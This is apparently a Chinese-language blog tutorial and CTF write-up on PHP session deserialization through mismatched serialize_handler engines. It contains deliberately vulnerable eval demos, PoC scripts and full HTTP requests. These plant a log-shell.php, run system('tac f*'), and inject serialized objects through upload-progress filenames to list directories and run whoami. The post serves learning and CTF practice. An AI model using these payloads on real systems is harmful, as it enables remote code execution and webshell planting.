




+++
title = "浅谈session反序列化"
slug = "session-deserialization-discussion"
description = "session反序列化"
date = "2024-09-11T16:15:57"
lastmod = "2024-09-11T16:15:57"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "session"]
+++

# 0x01 前言

这几天好多奇怪的事情，让我不得不放下一些东西，哎哟，把这个`session`反序列化拿下就去看`GC`回收机制

# 0x02 question

## 概念

### session 本身机制

> `session`（会话）是服务器端用于在用户访问网站时保存信息的一种机制。它允许在多个页面请求之间共享和持久化数据，以便追踪用户的状态或存储临时信息。

那么从这里也可以看出来有时候我们写脚本明明可以直接利用`requests`,但是却要写成这样

```python
import requests
sess=requests.session()
```

### 为啥要用session

大家都知道我们访问网站时，使用的协议是**http(https)**,但是HTTP 是一种**无状态协议**，也就是说，每次请求都是独立的，服务器不会记得上一次请求的信息。因此，`session` 被用来弥补这个缺点，帮助服务器跟踪用户状态。

那么是通过什么来跟踪的呢?这里就是**Session ID 生成与存储**

当用户首次访问这个网站时，会话就开始了，此时就会产生一个独一无二的ID，然后产生了`cookie`，`cookie`是一个缓存用于一定时间的身份验证，在同一域名下面是全局的，所以说在同一域名下的页面都可以访问到`cookie`,但是大家都知道`cookie`我们是可以进行修改的,所以`cookie`和`session`有本质的不同

- **Session**：数据存储在服务器端，客户端仅保存一个唯一的会话 ID，用于与服务器通信。
- **Cookie**：数据存储在客户端浏览器中，服务器不存储这些数据。

### session的产生和储存

> **session_start()** 会创建新会话或者重用现有会话。 如果通过 GET 或者 POST 方式，或者使用 cookie 提交了会话 ID， 则会重用现有会话。
>
> 当会话自动开始或者通过 **session_start()** 手动开始的时候， PHP 内部会调用会话处理程序的 open 和 read 回调函数。 会话处理程序可能是 PHP 默认的， 也可能是扩展提供的（SQLite 或者 Memcached 扩展）， 也可能是通过 [session_set_save_handler()](https://www.php.net/manual/zh/function.session-set-save-handler.php) 设定的用户自定义会话处理程序。 通过 read 回调函数返回的现有会话数据（使用特殊的序列化格式存储）， PHP 会自动反序列化数据并且填充 $_SESSION 超级全局变量

这里直接给官方文档的描述了，那么细心看的师傅会发现这里有反序列化，也就是我们的利用点(等会说)

那么我们写个Demo来看看是怎么存储的路径在哪里

```php
<?php 
show_source(__FILE__);
session_start();
echo session_id();
echo $_COOKIE["PHPSESSID"];
```


可以看到是保存在临时文件目录里面

```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
```

这些是常见的保存位置

我把cookie进行修改之后也是进行了部分的变化





那么我们再来看看`php.ini`中对`session`的配置

```php
session.save_path = "/tmp"
#session保存到/tmp目录
session.save_handler = files
#session的存储方式。这里是存储为文件
session.serialize_handler = php
#session默认的序列化引擎是php
session.auto_start = 0
#session是否默认打开。即是否默认开启session_start()
sess_sessionid
#session默认是以sess_随机字符串命名
```

其中也提到了重要知识session的序列化引擎，其实是有三个引擎

```
php:存储方式是，键名+竖线+经过serialize()函数序列处理的值

php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值

php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值
```

写个Demo具体看看

```php
<?php
ini_set('session.serialize_handler', 'php');
// ini_set('session.serialize_handler', 'php_binary');
// ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['bao']=$_GET['a'];
```

得到

```
php:  bao|s:2:"18";

php_binary:       baos:2:"18";

php_serialize(php>5.5.4):        a:1:{s:3:"bao";s:2:"18";}
```

## session反序列化

刚才我们看了`session_start()`的官方文档，当会话开始时，session_start()即会话开始时。session就会通过指定的序列化引擎将`$_SESSION`序列化。然后放入文件进行存储。那么当我们再次开启对话的时候他也会进行自动的反序列化来填充`$_SESSION`

```php
session_start()
#session_start()->读取session文件内容->反序列化
$_SESSION['name']='test';
#serialize($_SESSION)->存入文件
```

那么如果此时开发者使用的引擎与默认引擎不同，是不是就会产生歧义，此时我们利用数据的存储形式不同的漏洞是不是就可以任意触发魔术方法进行利用了

也就是说，**Session反序列化都是序列化引擎不一致导致存在安全问题**

## Demo

### Demo 1

**1.php**

```php
<?php
highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php');
session_start();
class Test{
    public $code;
    function __wakeup(){
    eval($this->code);
    }
}
?>
```

**2.php**

```php
<?php
highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php_serialize');
session_start();
if(isset($_GET['test'])){
    $_SESSION['test']=$_GET['test'];
}
?>
```

刚才提到了漏洞的出现就是因为引擎的不同，所以这里写了两个文件，一个是使用的`php_serialize`另一个是`php`

序列化界面是`php`，就代表着等会进行反序列化是`|`后面会认为是序列化数据

传参解密是`php_serialize`,代表着进行序列化是`json`格式保存

那么写个简单的`poc`

```php
<?php
class Test{
    public $code="phpinfo();";
    
}
$a=new Test();
echo serialize($a);
/*
O:4:"Test":1:{s:4:"code";s:10:"phpinfo();";}
```

传参为

```
http://localhost/2.php?test=|O:4:"Test":1:{s:4:"code";s:10:"phpinfo();";}
```

此时`sess_baozongwi`文件内容为

```
a:1:{s:4:"test";s:45:"|O:4:"Test":1:{s:4:"code";s:10:"phpinfo();";}";}
```

那么`php`引擎反序列化时会将`a:1:{s:4:"test";s:45:"`认为是键名，此时访问`/1.php`

发现成功反序列化



### Demo 2

**ctfshow web263**

一个简单的审计`session`

`index.php`

```php
<?php

	error_reporting(0);
	session_start();
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
	
?>
```

这个文件看的出来我们要进行session反序列化，并且我们等会序列化的时候要进行base64编码

然后看`check.php`,发现什么都没有，但是有提示让看`inc.php`,截取有用的部分

```php
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}
```

这里很明显可以进行木马的写入，写个poc

```php
<?php
class User{
    public $username='shell.php';
    /*public $password='<?php @eval($_GET[a]);?>';*/
    public $password='<?php system("tac f*");?>';
    public $status=1;
    
}
$a=new User();
echo base64_encode('|'.serialize($a));
```

本来想直接打入木马的，但是后来发现不行，利用不了，就改成执行命令了

先在`index.php`发包，然后再在`check.php`,最后在`log-shell.php`看回显就可以了

```
Request:

GET /index.php HTTP/1.1
Host: 20bacd7d-8ae1-44a9-995b-2f25354757f1.challenge.ctf.show
Cookie: cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=8stserifuth66e72hl5vmrq1pe; limit=fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo5OiJzaGVsbC5waHAiO3M6ODoicGFzc3dvcmQiO3M6MjU6Ijw/cGhwIHN5c3RlbSgidGFjIGYqIik7Pz4iO3M6Njoic3RhdHVzIjtpOjE7fQ==
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://20bacd7d-8ae1-44a9-995b-2f25354757f1.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: close
```

得到重要回显

```
Response:

	function check(){
			$.ajax({
			url:'check.php',
			type: 'GET',
			data:{
				'u':$('#u').val(),
				'pass':$('#pass').val()
			},
			success:function(data){
				alert(JSON.parse(data).msg);
			},
			error:function(data){
				alert(JSON.parse(data).msg);
			}

		});
		}
```

```
Request:

GET /check.php HTTP/1.1
Host: 20bacd7d-8ae1-44a9-995b-2f25354757f1.challenge.ctf.show
Cookie: cf_clearance=VDdapNbpwbPn6a1IM_PxJ0JXmcd0KRqr0Bf_cjtzjRY-1722865983-1.0.1.1-z9eFIJzdq2FOhOt1m9jPdicCjw4UPrBmoItiz1nAqzyxbXVOdGYDAqZJdUurUqU3FJLTgOSn3lo8Eml1_VWjXg; PHPSESSID=8stserifuth66e72hl5vmrq1pe; limit=fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo5OiJzaGVsbC5waHAiO3M6ODoicGFzc3dvcmQiO3M6MjU6Ijw/cGhwIHN5c3RlbSgidGFjIGYqIik7Pz4iO3M6Njoic3RhdHVzIjtpOjE7fQ==
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://20bacd7d-8ae1-44a9-995b-2f25354757f1.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Priority: u=1, i
Connection: close

Response:

{"0":"error","msg":"\u767b\u9646\u5931\u8d25"}
```

然后就可以成功得到`flag`了

### Demo 3

`http://web.jarvisoj.com:32784/`

```php
<?php 
ini_set('session.serialize_handler','php');
session_start();
class OowoO{
    public $mdzz;
    function __construct(){
        $this->mdzz='phpinfo();';
    }
    function __destruct(){
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo'])){
    $m=new OowoO();
}else{
    highlight_file(file_get_contents('demo.php'));
}

```

首先触发一个`phpinfo`,看一些配置

这里我们是没有session的上传的点的

会涉及到session上传进度的知识

> 当 [session.upload_progress.enabled](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.enabled) INI 选项开启时，PHP 能够在每一个文件上传时监测上传进度。 这个信息对上传请求自身并没有什么帮助，但在文件上传时应用可以发送一个POST请求到终端（例如通过XHR）来检查这个状态
>
> 当一个上传在处理中，同时POST一个与INI中设置的[session.upload_progress.name](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)同名变量时，上传进度可以在[$_SESSION](https://www.php.net/manual/zh/reserved.variables.session.php)中获得。 当PHP检测到这种POST请求时，它会在[$_SESSION](https://www.php.net/manual/zh/reserved.variables.session.php)中添加一组数据, 索引是 [session.upload_progress.prefix](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.prefix) 与 [session.upload_progress.name](https://www.php.net/manual/zh/session.configuration.php#ini.session.upload-progress.name)连接在一起的值。 通常这些键值可以通过读取INI设置来获得

我们需要POST一个同名变量(此次环境为`PHP_SESSION_UPLOAD_PROGRESS`)，就可以添加数据了，那么写个表单

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://localhost/1.php" method="POST" enctype="multipart/form-data" >
<input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="666" />
<input type="file" name="file" />
<input type="submit" value="submit" />
</form>
</body>
</html>
```

```
Request:

POST /1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------82030870339145711343728112542
Content-Length: 368
Origin: null
Connection: close
Cookie: PHPSESSID=9nto3pe3h7dme2cfv830usftqj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------82030870339145711343728112542
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

2333
-----------------------------82030870339145711343728112542
Content-Disposition: form-data; name="file"; filename="|123"
Content-Type: application/octet-stream

test
-----------------------------82030870339145711343728112542--
```

成功打出回显序列化失败，那么也是找到了注入点，写个`poc`

```php
<?php
class OowoO{
    public $mdzz;
    function __construct(){
        $this->mdzz='phpinfo();';
    }
    function __destruct(){
        eval($this->mdzz);
    }
}
$a=new OowoO();
//$a->mdzz='echo `whoami`;';
$a->mdzz='print_r(scandir(dirname(__FILE__)));';
echo serialize($a);
```

这里多学习一个命令，之前没见过的(感觉什么时候也得找个时间把这些shell命令和函数过了:\)

```
__DIR__
得到当前目录名
__FILE__
得到当前文件的绝对路径
dirname(__FILE__)
得到绝对路径中的目录名
```

```
Request:

POST /1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------82030870339145711343728112542
Content-Length: 442
Origin: null
Connection: close
Cookie: PHPSESSID=9nto3pe3h7dme2cfv830usftqj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------82030870339145711343728112542
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

2333
-----------------------------82030870339145711343728112542
Content-Disposition: form-data; name="file"; filename="|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}"
Content-Type: application/octet-stream

test
-----------------------------82030870339145711343728112542--
```

```
Response:

Array
(
    [0] => .
    [1] => ..
    [2] => .htaccess
    [3] => .vscode
    [4] => 1.php
    [5] => 2.php
    [6] => 3.php
    [7] => error
    [8] => flag.php
    [9] => index.html
    [10] => nginx.htaccess
    [11] => rips-Chinese-master
    [12] => uploads
    [13] => www
)
```

RCE也是可以打的

```
Request:

POST /1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------82030870339145711343728112542
Content-Length: 420
Origin: null
Connection: close
Cookie: PHPSESSID=9nto3pe3h7dme2cfv830usftqj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Priority: u=0, i

-----------------------------82030870339145711343728112542
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

2333
-----------------------------82030870339145711343728112542
Content-Disposition: form-data; name="file"; filename="|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:14:\"echo `whoami`;\";}"
Content-Type: application/octet-stream

test
-----------------------------82030870339145711343728112542--
```

回显也是正常的

## 再思考

我测试之后发现网上的Demo没有一个是`php_binary`的，所以打算本地尝试一下

1.php

```php
<?php
highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php_binary');
session_start();
class Test{
    public $code;
    function __wakeup(){
    eval($this->code);
    }
}
?>
```

2.php

```php
<?php
highlight_file(__FILE__);
ini_set('session.serialize_handler', 'php_serialize');
session_start();
if(isset($_GET['test'])){
    $_SESSION['test']=$_GET['test'];
}
?>
```

首先利用我们之前写的Demo看看这个引擎是怎么储存类的

```
baos:44:"O:4:"Test":1:{s:4:"code";s:10:"phpinfo();";}";
```

那么这里有个不可视字符并且我们是需要去自己写类似的字符串，并且算出字符个数

这个写个EXP

```python
from urllib.parse import quote

print(len('O:4:"Test":1:{s:4:"code";s:10:"phpinfo();";}'))
print(quote(chr(4))+'tests:44:"O:4:"Test":1:{s:4:"code";s:10:"phpinfo();";}"')
```

但是这样子并没有打通

后面进行类比了一下

```
%04testO:4:"Test":1:{s:4:"code";s:10:"phpinfo();";}
```

也还是不行，这个洞不懂，如果有师傅知道，可以一起讨论一下

# 0x03 小结

终于把session反序列化搞的有点东西了，虽然中途Demo3抓包由于是本地不好抓，但是最后抓到一次就行了，这周的第一次学习吧，前面都在忙行政的事，中秋节好好利用一下，最后那个思考说实话超出我能力范围了，网上也没有参考，不知道有没有这种利用方式
